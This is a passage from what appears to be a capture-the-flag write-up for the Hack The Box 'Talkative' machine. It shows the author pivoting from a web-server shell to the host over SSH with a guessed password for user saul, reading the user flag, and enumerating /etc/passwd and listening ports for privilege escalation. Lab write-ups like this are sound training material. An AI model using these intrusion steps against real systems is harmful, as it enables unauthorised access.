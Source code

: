 **Then, after some trial and error, I found that user `saul`'s password worked!**
```shell
(remote) www-data@c468eed9f9fc:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
[...]
saul@172.17.0.1's password: 
[...]
saul@talkative:~$ whoami; hostname; id; ip a
saul
talkative
uid=1000(saul) gid=1000(saul) groups=1000(saul)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:3c:10 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.155/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:3c10/64 scope link 
       valid_lft forever preferred_lft forever
[...]
```

I'm user `saul` on the host machine!

**user.txt:**
```shell
saul@talkative:~$ cat user.txt
{Redacted}
```

### Host saul to `172.17.0.3` Docker root

Now, we can enumerate the system again in order to escalate our privilege to root.

**System user:**
```shell
saul@talkative:~$ awk -F':' '{ if ($3 >= 1000 && $3 <= 60000) { print $1 } }' /etc/passwd
saul
saul@talkative:~$ ls -lah /home
total 12K
drwxr-xr-x  3 root root 4.0K Aug 10  2021 .
drwxr-xr-x 19 root root 4.0K Mar 15  2022 ..
drwxr-xr-x  5 saul saul 4.0K Mar  6  2022 saul
```

- Found system user: `saul`

**Listening ports:**
```shell
saul@talkative:~$ netstat -tunlp
[...]
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 172.17.0.1:6003         0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:6004         0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:6005         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 172.17.0.1:6006         0.0.0.0:*               LISTEN      -                   
```